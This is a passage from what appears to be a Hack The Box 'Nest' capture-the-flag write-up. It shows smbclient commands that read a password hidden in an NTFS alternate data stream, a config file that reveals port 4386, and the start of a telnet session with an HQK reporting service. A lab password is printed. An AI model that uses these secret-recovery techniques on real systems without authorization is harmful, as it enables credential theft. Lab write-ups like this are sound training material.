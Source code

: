 #### Detecting and reading Alternate Data Streams \(ADS\) over SMB

In order to locate any alternate data streams in this file over SMB, you need to use the `allinfo` command, then `Get` the file with the appropriate stream name appended to it. You can read more about this at [https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux](https://www.sans.org/blog/alternate-data-streams-overview/).

```text
smb: \C.Smith\HQK Reporting\> allinfo
allinfo <file>
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt" 
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
smb: exit

zweilos@kalimaa:~/htb/nest$ cat 'Debug Mode Password.txt:Password:$DATA' 
WBQ201953D8w
```

Well now I had a password to something called `Debug Mode` but I had no idea where to use it.  Next I opened the `HQK_Config_Backup.xml` file.  

```xml
zweilos@kalimaa:~/htb/nest$ cat HQK\ Reporting\\HQK_Config_Backup.xml

<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```

### Dealing with unknown ports

`HQK_Config_Backup.xml` mentioned port 4386, which I didn't recognize.  A quick internet search revealed nothing about this port other than it was in an unassigned block.  There are generally three things to try when dealing with unknown ports...netcat, telnet, and ssh.  In this case, `nc` simply reported back the banner `HQK Reporting Service V1.2` and nothing else. `Telnet` however gave me an interactive prompt.

```text
zweilos@kalimaa:~/htb/nest$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>whoami

Unrecognised command
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
```